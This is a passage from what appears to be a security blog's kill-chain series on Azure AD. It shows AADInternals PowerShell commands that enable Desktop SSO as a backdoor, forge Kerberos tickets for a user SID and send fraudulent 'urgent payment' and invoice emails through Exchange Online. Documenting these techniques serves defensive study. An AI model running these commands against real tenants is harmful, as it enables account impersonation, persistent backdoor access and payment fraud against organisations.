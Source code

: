# Send a message using "Outlook"
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
{{< /highlight>}}

## Desktop SSO (seamless single-sign-on)
As described in the last <a href="/post/on-prem_admin/#pass-through-authentication" target="_blank">blog post</a> of the kill chain series, on-prem administrators can extract
the password hash of the AZUREADSSOACC computer account and impersonate users with Kerberos tickets.

If the Desktop SSO is not used, Global Admin can enable it using any domain name and password, and use it as a <a href="/post/kerberos/" target="_blank">backdoor</a>:
{{< highlight powershell >}}
# Create an access token for PTA and save to cache
Get-AADIntAccessTokenForPTA -SaveToCache

# Enable the DesktopSSO
Set-AADIntDesktopSSOEnabled -Enable $true

# Enable the DesktopSSO for the given domain
Set-AADIntDesktopSSO -DomainName company.com -Password "mypassword" -Enable $true
{{< /highlight>}}

Now, as long as we know the SID of the user, we can create a Kerberos ticket, use it to get an access token for Exchange Online, and finally send an email using Outlook:

{{< highlight powershell >}}
# Create a Kerberos ticket
$kt=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Password "mypassword"

# Get an access token for Exchange Online
$et=Get-AADIntAccessTokenForEXO -KerberosTicket $kt -Domain company.com

# Send an email using Outlook API
Send-AADIntOutlookMessage -AccessToken $et -Recipient "accounting@company.com" -Subject "Invoice" -Message "Pay the attached invoice <b>ASAP!</b>"

{{< /highlight>}}

## Pass-through authentication
